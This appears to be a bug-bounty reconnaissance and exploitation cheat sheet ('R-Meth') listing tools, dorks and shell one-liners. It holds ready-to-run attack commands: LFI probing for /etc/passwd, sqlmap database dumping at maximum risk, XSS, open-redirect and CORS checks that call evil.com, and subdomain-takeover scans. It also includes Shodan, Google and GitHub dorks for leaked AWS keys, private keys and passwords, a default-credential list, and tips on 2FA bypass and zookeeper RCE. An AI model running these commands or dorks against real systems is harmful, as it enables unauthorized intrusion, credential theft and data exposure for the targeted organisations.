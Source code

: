 # R-Meth
-whois target.com | grep "NetName\|OrgName\|AS"   find org name 
-curl -s https://api.hackertarget.com/aslookup/?q=target.com
-whois ASXXXXX | grep -E "CIDR|inetnum"
-curl -s https://crt.sh/\?q\=%.target.com\&output\=json | jq -r '.[].name_value' | sort -u
-curl -s "http://web.archive.org/cdx/search/cdx?url=target.com/robots.txt&output=json" | jq '.[1:] | .[] | .[2]' | sort -u > historical_robots.txt
-curl -s "https://scrape.pastebin.com/api_scraping.php?limit=100" | grep -Eo "target\.com" | sort -u



-start the recon process with some vulnerability assesments & automation easy recon (magicrecon, rapidscan, sniper, frogy2.0, raccon, openvas, omsedaus) for get some easy info

1-collect subdomains from here https://shrewdeye.app/ and https://pentest-tools.com/ and shodanx and crt.sh and amass    crtsh:-"curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | anew crtsh_subs.txt"

2-find others subdomains by assetfinder, subfinder - scan the dns using dnsrecon, dnsenum

2- use cloudenum after make sure you got all subs, and dnschef - dnstake - dnsdumpster, by the meaning try to exploit any dns shit

- use theharvester
- eyewitness for getting some screenshots on strange ports

3- use httpx "sudo httpx -l allsubs.txt -sc -td -title -wc -bp -cdn --websocket --follow-redirects" and "sudo httpx -l allsubs.txt"

4- HXCC-scanner, HexHTTP by a list of httpx to detect http possible vulns

5- use subzy sudo subzy run --targets live_subs.txt then use DIG if you found retailed CNAME try to claim it 

6- use some automations like rapidscan, sniper, trufflehog if found a github

7-find more manual subdomains by google dorking https://github.com/Zierax/GoogleDorker, googler, or even do ia manually

8-use nmap, shodan dorks for open ports if you found ssh,ftp,smtp,sftp, etc... try to find versions then find exploits to them " Ssl.cert.subject.CN:"Roblox Corporation" "

9-use smuggler to check request smuggling vulnerablitiy "cat httpx.txt | smuggler.py | tee -a smuggler.txt" 

9-use porch pirate to get api repos from postman or use web.postman.com manually

10-using ffuf or gobuster and nikto to find hidden directories

11-using waybackurls, gobuster, gau, katana, hakrawler then seperate the results for js, php, xml, txt, aspx, html, sql, json

-execute this in https://docs.github.com/en/graphql "{"query": "query { search(query: \"<<target>>.com\", type: REPOSITORY, first: 10) { edges { node { ... on Repository { name url } } } } }"}
"

-use gf for seperate the types of findings to sqli, xss, ssrf, etc... for using them in Xray "https://github.com/chaitin/xray" by the plugins for each one, example "xargs -a xss_from_gf.txt-I@ sh -c './xray webscan --plugins xss --url "@" --html-output xss.html"

12-use jshunter, mantra, arjun, jsleak for define parameters and interesting api,endpoints in js, php, aspx files, cat urls.txt | grep ".js" | while read url; do curl -s "$url" | grep -Eo "https?://[^\"']+"; done | tee js_endpoints.txt


13-use social hunter https://github.com/utkusen/socialhunter for broken links hijacking

13-use kiterunner for scanning api targets

14-use eyewitness --web -f live_subs.txt -d screenshots

15-nuclei -l httpx.txt -rl 10 -bs -c 2 -as -s critical,high,medium

16-using some oneliners to get some easy fruits 
LFI   cat targets.txt | (gau || hakrawler || waybackurls || katana) |  grep "=" |  dedupe | httpx -silent -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
OPRD  echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
SSRF  cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> tmp-ssrf.txt; httpx -silent -l tmp-ssrf.txt -fr 
SSRF2 cat potential_ssrf.txt | qsreplace 'http://YOUR_COLLABORATOR_ID.burpcollaborator.net' | httpx -silent -status-code 302,200
XSS   cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
SQLI  cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | dedupe | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level 5 --risk 3 --dbs && for i in $(cat tmp-sqli.txt); do ghauri -u "$i" --level 3 --dbs --current-db --batch --confirm; done
CORS  echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
TAKEOVER subfinder -d target.com -o subs_for_takeover.txt && nuclei -t wp-xyz-takeover.yaml -l subs_for_takeover.txt 



17-github manual dorking "https://gist.github.com/search?l=JSON&q=*%2Atarget.com", "https://github.com/search?q="target.com"&type=code", etc...

18-use fuzzuli for find backup files



NOTES:

-check clickjacking by clickjacker.io
-beautiy js by beautifier.io
-check js, php, txt files manually
-text interestings manually
-use sniper as less as possible (time consuming, resources consuming)
-try manually, auto-fuzzing on interesting endpoints
-wordpress is juicy shit!!
-seperate your results well
-get favicon hash "curl https://favicon-hash.kmsec.uk/api/?url=https://test.com/favicon.ico | jq"
-this https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt have all bugbounty targets you can use it as mass automation for low hanging fruits
-some golden Shodan Dorks:
	• ssl:"target.com" http.status:200 http.title:"dashboard" 
	• org:"target.com" http.component:"jenkins" http.status:200 
	• ssl:"target.com" http.status:200 product:"ProFTPD" port:21 
	• http.html:"zabbix" vuln:CVE-2022-24255
	• org:"target.com" http.title:"phpMyAdmin"
	• ssl:"target.com" http.title:"BIG-IP" vuln:CVE-2020-5902
	• ssl.cert.subject.cn:*.taarget.com http.title:"Dashboard [Jenkins]"
	• http.html:"xoxb-"
	• http.html:"AKIA" 
	• http.html:"AIza" 
	• ssl.cert.subject.CN:"*.target.com"+200 http.title:"Admin"
	• http.html:"The wp-config.php creation script uses this file"
	• http.title:"Index Of /"
	• http.title:"Directory Listing" org:organization-name
	• product:"Splunk",,,, Exploit like this=> 127.0.0.1:8000/en-US/splunkd/__raw/services/server/info/server-info?output_mode=json
	• Ssl:”domain” 200 http.title:”citrix gateway”
	• http.title:"swagger UI" org:"Target"
	• net:"I.P.v.4/CIDR" http.title:dashboard
	• org:"Company Inc" http.title:dashboard
	• asn:ASN Number e.g. AS19551+http.title:"dashboard”
	• org:Company http.status:"403"
	• Set-Cookie:"mongo-express=" "200 OK"	
	• ssl.cert.subject.CN:"*.target.com" "230 login successful" port:"21"
	• http.title:"Django REST framework"
	



-check for some vulnerabilities in shodan by:
	• CVE-2023-35078 - http.title:"MobileIron"  
	• CVE-2023-35078 - http.favicon.hash:362091310	https://github.com/vchan-in/CVE-2023-35078-Exploit-POC

-some golden Google Dorks use them on Bing searchengine:
	• site:docs.google.com/spreadsheets "Target"
	• site:groups.google.com "Target"
	• intitle:"Swagger UI" site:roblox.com	
	• site:target.com inurl:login | inurl:signin | intitle:Login | intitle:"sign in" | inurl:auth
	• site:domain.com inurl:view inurl:private ext:pdf
	• site:domain.com inurl:upload ext:pdf
	• site:domain.com inurl:uploads ext:pdf
	• site:domain.com inurl:internal ext:pdf
	• site:domain.com inurl:storage ext:pdf
	• site:domain.com inurl:download ext:pdf
	• site:domain.com inurl:webview ext:pdf
	• site:domain.com inurl:content ext:pdf
	• site:domain.com inurl:_data ext:pdf
	• site:domain.com inurl:<keyword> ext:pdf -docs -doc -documentation -form -draft -application -sample -template -public
	• site:domain.com ext:py
	• intitle:"Dashboard [Jenkins]" Credentials
	• inurl:/api/v1/splashmodal site:domain.com
	• site:domain.com "Choose File"
	• site:domain.com "No file chosen"
	• site:domain.com "Upload"
	• site:domain.com "Upload here"
	• site:domain.com "Upload a file"
	• site:domain.com "Please upload your"
	• site:*<*.target.com intext:"login" | intitle:"login" | inurl:"login" | intext:"username" | intitle:"username" | inurl:"username" | intext:"password" | intitle:"password" | inurl:"password"
	• site:*.redacted.com -www -www1 -blog
-some golden Github Dorks:
	• target.com SECRET_KEY | DB_PASSWORD 
	• target.com "INSERT INTO users" 
	• target.com "aws_access_key_id" "aws_secret_access_key" 
	• target.com "Authorization: Bearer" 
	• target.com "client_id" "client_secret" 
	• target.com "password=" 
	• target.com "BEGIN RSA PRIVATE KEY" 
	• target.com "mongodb://username:password@"
	• target.com "MYSQL_ROOT_PASSWORD" 
	• target.com "smtp_pass"
	• target.com filename:vim_settings.xml
	• service-now password | okta.com | looker.com secret  "target"
	• org:companyname "AWS_ACCESS_KEY_ID:"
	• org:"company" ftp_user AND ftp_password AND ftp_host
	• https://github.com/search?q=COMPANY_NAME&type=users ##use this as link not a dork for find users retailed with company name##
	• http.html:"apollo-adminservice"
	•
	•
	•


-default creds to try on target
	• admin:admin
	• test:test
	• admin:password
	• admin:pass
	• test@test.com:test
	• test@company.com:test (try with all domains that belong to company)
	• test@company.com:test@company,com

-a good github dork list
https://gist.github.com/jhaddix/1fb7ab2409ab579178d2a79959909b33

-use fully automated vuln scanner like https://github.com/v3n0m-Scanner/V3n0M-Scanner when you find a suspectios domain 

-copy the copyright  in your target site and  search google for previous years to discover abandoned asset . E.g " © 2024 Uber Technologies Inc."

-use wpscan if you found any wordpress sites

-if you found embed.<target>.com, try to Logged in to subdomain with same creds then you will Full access to main domain without entering 2FA

-if you find any PDFs or files use exiftool

-Look for Google Analytics Tracking IDs (UA-XXXXXX-X) and use https://dnslytics.com/reverse-analytics to discover more assets sharing the same ID.

-look for port 2181-zookeeper for easy RCEs

-Leak PII sensitive API Users DATA with URL Path Permutations: /api/users/user@email.com OR /api/users/1234

-port 9090 could be zues-admin panel 

-find some informations about domain by https://viewdns.info/reversewhois/

-use https://dorkmine.vercel.app/ for easy dorks

-boost you recon by https://inteltechniques.com  AND  https://intelx.io  

-some mindmaps cheatsheet   https://github.com/Ignitetechnologies/Mindmap

-use this site make google dorking lot easier  https://taksec.github.io/google-dorks-bug-bounty/

-if you found any nginx, apache, jfrog, etc... versions try to find cves for it in google, github, exploitdb, etc...

-use this to find all endpoints in the site by browser console " (()=>{const p=[...new Set([...document.querySelectorAll("a[href]")].map(a=>new URL(a.href,location.href).pathname))],b=new Blob([p.join("\n")],{type:"text/plain"}),a=Object.assign(document.createElement("a"),{href:URL.createObjectURL(b),download:`${location.hostname.replace(/^www\./,"")}.txt`});document.body.appendChild(a),a.click(),document.body.removeChild(a);})(); "


